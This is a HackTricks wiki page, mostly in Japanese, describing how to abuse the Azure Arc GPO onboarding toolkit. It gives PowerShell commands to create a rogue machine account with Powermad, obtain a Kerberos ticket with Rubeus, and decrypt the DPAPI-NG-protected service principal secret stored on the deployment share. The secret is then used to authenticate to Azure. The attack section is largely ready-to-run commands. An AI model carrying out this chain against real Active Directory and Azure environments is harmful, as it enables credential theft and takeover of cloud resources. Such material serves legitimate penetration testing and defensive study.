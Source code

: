 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arcは、グループポリシーオブジェクトメソッドを使用して新しい内部サーバー（ドメイン参加サーバー）をAzure Arcに統合することを可能にします。これを促進するために、Microsoftはオンボーディング手順を開始するために必要なデプロイメントツールキットを提供しています。ArcEnableServerGroupPolicy.zipファイル内には、次のスクリプトが含まれています：DeployGPO.ps1、EnableAzureArc.ps1、およびAzureArcDeployment.psm1。

DeployGPO.ps1スクリプトを実行すると、次のアクションが実行されます：

1. ローカルドメイン内にAzure ArcサーバーオンボーディングGPOを作成します。
2. オンボーディングプロセスのために作成された指定されたネットワーク共有にEnableAzureArc.ps1オンボーディングスクリプトをコピーします。この共有にはWindowsインストーラーパッケージも含まれています。

このスクリプトを実行する際、システム管理者は2つの主要なパラメータを提供する必要があります：**ServicePrincipalId**と**ServicePrincipalClientSecret**。さらに、ドメイン、共有をホストするサーバーのFQDN、および共有名などの他のパラメータも必要です。テナントID、リソースグループ、およびスクリプトに提供する必要のあるその他の情報も必要です。

暗号化されたシークレットは、指定された共有のAzureArcDeployディレクトリ内にDPAPI-NG暗号化を使用して生成されます。暗号化されたシークレットは、encryptedServicePrincipalSecretという名前のファイルに保存されます。これに関する証拠は、DeployGPO.ps1スクリプト内に見られ、暗号化は$descriptorと$ServicePrincipalSecretを入力としてProtectBase64を呼び出すことで実行されます。ディスクリプタは、ドメインコンピュータおよびドメインコントローラグループのSIDで構成されており、ServicePrincipalSecretはドメインコントローラおよびドメインコンピュータのセキュリティグループによってのみ復号化できることが、スクリプトのコメントに記載されています。
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

次の条件があります：

1. 内部ネットワークに成功裏に侵入しました。
2. Active Directory内でコンピュータアカウントを作成または制御する能力があります。
3. AzureArcDeployディレクトリを含むネットワーク共有を発見しました。

AD環境内でマシンアカウントを取得する方法はいくつかあります。最も一般的な方法の1つは、マシンアカウントのクォータを悪用することです。別の方法は、脆弱なACLやさまざまな他の誤設定を通じてマシンアカウントを侵害することです。
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
マシンアカウントが取得されると、このアカウントを使用して認証することが可能です。runas.exeコマンドをnetonlyフラグと共に使用するか、Rubeus.exeを使用してパス・ザ・チケットを利用することができます。
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
メモリにコンピュータアカウントのTGTを保存することで、次のスクリプトを使用してサービスプリンシパルの秘密を復号化できます。
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatively, we can use [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

この時点で、暗号化されたServicePrincipalSecretファイルと同じネットワーク共有に保存されているArcInfo.jsonファイルから、Azureに接続するために必要な残りの情報を収集できます。このファイルには、TenantId、servicePrincipalClientId、ResourceGroupなどの詳細が含まれています。この情報を使用して、Azure CLIを使用して侵害されたサービスプリンシパルとして認証できます。

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
